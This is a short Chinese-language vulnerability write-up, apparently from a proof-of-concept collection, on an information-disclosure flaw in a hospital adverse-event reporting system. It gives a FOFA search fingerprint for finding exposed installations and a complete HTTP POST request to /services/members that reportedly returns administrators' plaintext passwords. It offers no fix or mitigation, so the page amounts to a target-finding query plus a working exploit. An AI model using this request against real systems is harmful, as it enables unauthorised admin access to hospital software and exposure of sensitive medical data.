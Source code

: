 # 医疗安全(不良)事件报告系统members存在信息泄露漏洞

# 一、漏洞简介
鱼尾巴科技专注于医疗质控,为医院提供完整医疗质量解决方案,按照国家卫健委评审标准和中国医院质量安全管理标准,研发了医院等级评审系统、医疗安全(不良)事件报告系统、不良事件管理系统等。其中旗下医疗安全(不良)事件报告系统members存在信息泄露漏洞，通过该漏洞可获取管理员明文密码进入后台。

# 二、影响版本
+ 医疗安全(不良)事件报告系统

# 三、资产测绘
+ fofa`body="koma.Application"`
+ 特征

![1721306769436-e4a4bc7b-dc51-437f-beba-c4aff1c4db63.png](./img/jhNzbDrLMxpLCf20/1721306769436-e4a4bc7b-dc51-437f-beba-c4aff1c4db63-247254.png)

# 四、漏洞复现
```plain
POST /services/members HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-dctech-json-rpc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Priority: u=0
Content-Length: 66

{"method":"fetch","params":{"service":"members","user_class":""}}
```

![1721307742396-a938cb64-2d51-45ff-8628-d7c7d525611b.png](./img/jhNzbDrLMxpLCf20/1721307742396-a938cb64-2d51-45ff-8628-d7c7d525611b-362515.png)![1721306807514-42e7baa0-a868-43e4-901b-4fc15e64e954.png](./img/jhNzbDrLMxpLCf20/1721306807514-42e7baa0-a868-43e4-901b-4fc15e64e954-802866.png)



> 更新: 2024-10-22 09:37:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/svb01mcl3q5d1dwx>
